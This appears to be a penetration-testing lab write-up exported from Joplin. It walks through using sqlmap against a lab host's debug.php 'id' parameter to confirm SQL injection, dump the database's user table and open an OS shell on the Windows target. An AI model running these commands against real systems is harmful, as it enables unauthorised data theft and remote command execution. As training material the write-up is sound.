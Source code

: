 9.4.5.13

# 9.4.5.13
## 9.4.5.13.1. Use sqlmap to obtain a full dump of the database.

Run sqlmap to test the id parameter. It confirms there is an injection point using parameter 'id' and 4 payloads to do so. It also outputs the back-end is MariaDB
```plaintext
kali@kali:~$ sqlmap -u http://192.168.214.10/debug.php?id=1 -p "id"
```
![8043c4ba98260586f8371d1d5f0d0cf1.png](:/909d15b49b9a438fb540be3c9ba17edc)
![2f6675243451b18d546bb456dc97d11f.png](:/fc13c8c7a50e47b7b5f497bbdc9be032)

Dump the contents of all tables in the database. We see that it dumped a CSV file in /home/kali/.sqlmap/output/192.168.214.10/dump/webappdb/users.csv
```plaintext
kali@kali:~$ sqlmap -u http://192.168.214.10/debug.php?id=1 -p "id" --dbms=mysql --dump
```
![14e8ccdb494d133b6b76f11d7f17a4ff.png](:/7bca7193c05243bab7e0ae846c01b166)
![4d86a21e678f9ca178b07f942edd29b9.png](:/83ab77ca7e0945e987c335fb884af3e2)



## 9.4.5.13.2. Use sqlmap to obtain an interactive shell.

Try the --os-shell method to upload and execute a remote command shell on the Windows machine. We see that we can run commands such as whoami, ipconfig, and dir
```plaintext
kali@kali:~$ sqlmap -u http://192.168.214.10/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```
![5782b8c78f2771bfd80cf7c66b19fa17.png](:/35f6d41f5b6f485d9fb76ba4990b8480)
![84df895deb6d14d985d702074182cf58.png](:/a5652f11ce8145fea0ef03a49ff6ccd4)
![382ed146b5b40396f900f539136aef3f.png](:/3c755efa00c34cf5bebdc7a20837fb5b)

id: b46ce15f194e4784a83909d446f3a79e
parent_id: 89f064f6bc764150b269b35078d9fcc8
created_time: 2020-10-02T21:25:31.250Z
updated_time: 2020-10-02T21:25:32.341Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:25:31.250Z
user_updated_time: 2020-10-02T21:25:32.341Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1